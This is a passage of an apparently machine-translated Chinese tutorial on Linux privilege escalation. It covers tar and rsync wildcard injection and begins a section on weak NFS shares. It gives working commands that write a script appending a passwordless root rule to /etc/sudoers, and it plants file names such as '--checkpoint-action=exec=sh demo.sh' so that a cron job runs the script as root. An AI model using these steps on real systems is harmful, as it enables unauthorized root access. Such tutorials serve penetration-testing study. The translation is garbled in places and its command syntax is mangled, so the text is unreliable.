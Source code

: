 **2**）编写恶意的 **Shell** 脚本

Shell 脚本将 / etc/sudoers 在其后追加代码，这会使您变得更加无礼。

您需要添加到的行 / etc/sudoers 是 my-user ALL=(root) NOPASSWD: ALL。

让我们创建 shell 脚本：

echo ‘echo “my-user ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > demo.sh

Shell 脚本应与通配符位于同一目录中。

请注意，我们将必须更改 my-user 为要成为 sudoer 的实际用户。

**3**）注入一个指定检查点动作的标志

现在，我们将指定，当 tar 到达在步骤＃1 中指定的检查点时，它应运行在步骤＃2 中创建的 shell 脚本：

touch — “—checkpoint-action=exec=sh demo.sh”

**4**）**root**

等待，直到 cron 执行了脚本并通过键入以下内容获得 root 特权：

sudo su

### rsync

Rsync 是 “快速，通用，远程（和本地）文件复制工具”，在 linux 系统上非常常见。

与 rsync 一起使用的一些有趣的标志是：

-e, —rsh=COMMAND           specify the remote shell to use     —rsync-path=PROGRAM    specify the rsync to run on remote machine

我们可以使用该 - e 标志来运行所需的任何 Shell 脚本。让我们创建一个 shell 脚本，它将我们添加到 sudoers 文件中：

echo ‘echo “my-user ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > shell.sh

现在让我们注入将运行我们的 shell 脚本的标志：

touch — “-e sh shell.sh”

**0x009 Linux 提权 - NFS 权限弱**
----------------------------

如果您在 linu 服务器上具有低特权 shell，并且发现服务器中具有 NFS 共享，则可以使用它来升级特权。但是成功取决于它的配置方式。

### 目录

1.  什么是 NFS？
    
2.  什么是 root_sqaush 和 no_root_sqaush？
    
3.  所需的工具和程序文件。
    
4.  利用 NFS 弱权限。
    

### 什么是 NFS？

网络文件系统（**NFS**）是一个客户端 / 服务器应用程序，它使计算机用户可以查看和选择存储和更新远程计算机上的文件，就像它们位于用户自己的计算机上一样。在 **NFS** 协议是几个分布式文件系统标准，网络附加存储（NAS）之一。
